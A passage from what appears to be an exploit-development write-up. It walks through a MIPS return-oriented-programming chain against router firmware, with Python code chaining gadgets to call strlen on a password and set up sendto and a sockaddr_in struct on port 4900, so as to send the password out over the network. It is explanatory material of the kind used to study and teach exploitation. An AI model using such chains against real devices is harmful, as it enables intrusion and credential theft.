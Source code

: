 Then we load the address of *strlen* into *v0*, and call the function using the ugly `jalr` gadget as we care about the return value - you should remember this from earlier:

```python
# Load address of strlen into v0
# 0x00057864: lw $v0, ($sp); lw $ra, 0xc($sp); jr $ra; addiu $sp, $sp, 0x10;
chain += p32(strlen_addr) # v0 - strlen address
chain += b'b' * 8
chain += p32(0x133d58 + base_address) # ra

# Call strlen and regain control
# 0x00133d58: jalr $v0; nop; move $s0, $v0; lw $ra, 0x24($sp); move $v0, $s0; lw $s2, 0x20($sp); lw $s1, 0x1c($sp); lw $s0, 0x18($sp); jr $ra; addiu $sp, $sp, 0x28; 
chain += b'b' * 0x18
chain += p32(0xdeadbeef) # s0
chain += p32(0xdeadbeef) # s1
chain += p32(0xdeadbeef) # s2
chain += p32(0x166168 + base_address) # ra
```

So at this point, we have the length of the password in *$v0*. I hate to spoil the next function call we are going to make, but its *sendto*, which takes the number of bytes to send as its 3rd argument. Therefore, we need to move the contents of *$v0* into *$a2*:

```python
# 0x00166168: move $v1, $v0; lw $ra, 4($sp); move $v0, $v1; lw $s0, ($sp); jr $ra; addiu $sp, $sp, 8; 
chain += b'b' * 4
chain += p32(0x18f044 + base_address)

# 0x0018f044: move $a2, $v1; lw $ra, 0xc($sp); jr $ra; addiu $sp, $sp, 0x10; 
chain += b'b' * 0xc
chain += p32(0x1a9f9c + base_address)
```

As you can see, I needed to use *$v1* as a middle man as there were no useful gadgets that moved *$v0* into *$a2*. However, we now have one of our *sendto* arguments in the right place.

### sockaddr_in

```c
struct sockaddr_in {
    short            sin_family;   // e.g. AF_INET
    unsigned short   sin_port;     // e.g. htons(3490)
    struct in_addr   sin_addr;     // see struct in_addr, below
    char             sin_zero[8];  // zero this if you want to
};
```

We need to create a *sockaddr_in* struct containing the port and IP address we would like to send the message to. As we cannot send null bytes, we will need to find some memory that we can copy containing the bytes we need. 

To indicate *sin_family* AF_INET in our struct, the first 2 bytes need to be *0x0* and *0x2*. The next 2 bytes specify the port number, so anything works. I found *0x0* *0x2* *0x13* *0x24* in the firmware image - so we will be sending messages over port 4900. 
